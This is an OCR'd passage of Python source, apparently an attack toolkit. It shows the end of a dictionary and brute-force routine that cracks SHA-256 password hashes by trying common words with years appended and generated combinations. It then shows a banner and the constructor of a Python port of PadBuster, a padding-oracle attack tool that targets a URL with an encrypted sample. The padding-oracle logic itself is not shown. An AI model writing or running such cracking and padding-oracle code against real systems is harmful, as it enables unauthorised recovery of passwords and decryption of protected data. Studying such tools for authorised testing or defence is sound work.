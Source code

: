                     app = cv + yearval
                    happ = sha256_hash(app)
                    if is_rl_hash(happ, real_hash):
                        e = time.time() - start_time
                        print(f"[Found] Common+Append => plaintext {app}, Elapsed {e:.2f}s")
                        return

    # Step 3: Full combos
    combos = gen_pswd_combos('')
    for i, comb in enumerate(combos):
        ch = sha256_hash(comb)
        if is_rl_hash(ch, real_hash):
            e = time.time() - start_time
            print(f"[Found] Combos => plaintext {comb}, Elapsed {e:.2f}s")
            return
        if i % 5000 == 0:
            print(f"[hash_str] combos tried => {i}, current => {comb}")

    print("[hash_str] End of attempts, no matching hash found...")

# -------------- The PadBuster Class --------------

def banner():
    print("+-------------------------------------------+")
    print("| PadBuster - v0.3.3 (Python Port)          |")
    print("| Written originally by Brian Holyfield     |")
    print("| Python conversion by whisprer & friends   |")
    print("+-------------------------------------------+\n")

class PadBuster:
    """
    A partial Python re-implementation of the original PadBuster logic.
    For demonstration only. 
    """

    def __init__(
        self,
        url: str,
        encrypted_sample: str,
        block_size: int,
        error_string: str = None,
        encoding_format: int = 0,
        verbose: bool = False,
        log_files: bool = False,
        no_iv: bool = False,
        no_encode_option: bool = False,
        plaintext: str = None
    ):
        self.url = url
        self.sample = encrypted_sample
        self.block_size = block_size
        self.error_string = error_string
        self.encoding_format = encoding_format
        self.verbose = verbose
        self.log_files = log_files
        self.no_iv = no_iv
        self.no_encode_option = no_encode_option
        self.plaintext = plaintext
